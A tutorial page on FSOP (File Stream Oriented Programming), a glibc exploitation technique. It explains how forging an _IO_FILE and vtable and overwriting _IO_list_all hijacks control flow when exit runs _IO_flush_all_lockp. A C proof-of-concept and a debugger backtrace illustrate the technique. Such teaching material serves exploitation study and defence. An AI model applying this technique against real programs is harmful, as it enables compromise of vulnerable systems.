

[EN](./fsop.md) | [ZH](./fsop-zh.md)
# FSOP


## Introduction
FSOP is the abbreviation of File Stream Oriented Programming. According to the previous introduction to FILE, all the _IO_FILE structures in the process will be connected to each other using the _chain field to form a linked list. The header of this linked list is maintained by _IO_list_all.


The core idea of the FSOP is to hijack the value of _IO_list_all to fake the linked list and the _IO_FILE entry, but pure forgery just constructs the data and needs some way to trigger. The trigger method for FSOP selection is to call _IO_flush_all_lockp. This function will refresh the file stream of all items in the _IO_list_all list, which is equivalent to calling fflush for each FILE, and correspondingly calling _IO_overflow in _IO_FILE_plus.vtable.


```

int

_IO_flush_all_lockp (int do_lock)

{

  ...

fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)

  {

       ...

       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

        ...

  }

}

```





_IO_flush_all_lockp does not require an attacker to manually invoke it. In some cases this function will be called by the system:


1. When libc executes the abort process


2. When executing the exit function


3. When the execution flow returns from the main function


##example


To sort out the conditions used by the FSOP, the attacker first needs to know the libc.so base address, because _IO_list_all is stored as a global variable in libc.so, and _IO_list_all cannot be overwritten without leaking the libc base address.


Then you need to use any address to write the contents of _IO_list_all to pointers to our controllable memory.


The next question is what data is placed in the controllable memory, and there is no doubt that we need to lay out a vtable pointer to our ideal function. But in order for the fake_FILE we constructed to work properly, we need to lay out some other data.
The basis here is the one we gave earlier.


```

if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

```


That is


* fp->_mode <= 0

* fp->_IO_write_ptr > fp->_IO_write_base


Here we verify this with an example. First we allocate a block of memory for the fake vtable and _IO_FILE_plus.
In order to bypass the verification, we get the offset of the data fields such as _IO_write_ptr, _IO_write_base, _mode in advance, so that the corresponding data can be constructed in the forged vtable.


```

#define _IO_list_all 0x7ffff7dd2520

#define mode_offset 0xc0

#define writeptr_offset 0x28

#define writebase_offset 0x20

#define vtable_offset 0xd8


int main(void)

{

void * ptr;
    long long *list_all_ptr;


ptr = malloc (0x200);


    *(long long*)((long long)ptr+mode_offset)=0x0;

    *(long long*)((long long)ptr+writeptr_offset)=0x1;

    *(long long*)((long long)ptr+writebase_offset)=0x0;

    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);


    *(long long*)((long long)ptr+0x100+24)=0x41414141;


    list_all_ptr=(long long *)_IO_list_all;


    list_all_ptr[0]=ptr;


    exit(0);

}

```


We use the first 0x100 bytes of allocated memory as _IO_FILE, the last 0x100 bytes as vtable, and the 0x41414141 address in the vtable as the fake _IO_overflow pointer.


After that, overwrite the global variable _IO_list_all in libc and point it to our fake _IO_FILE_plus.


By calling the exit function, the program will execute _IO_flush_all_lockp, get the value of _IO_list_all via fflush and retrieve the _IO_overflow called as _IO_FILE_plus.


```

---> call _IO_overflow

[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)

[#1] 0x7ffff7a8932a → Name: _IO_cleanup()

[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)

[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)

[#4] 0x4005ce → Name: main()


```
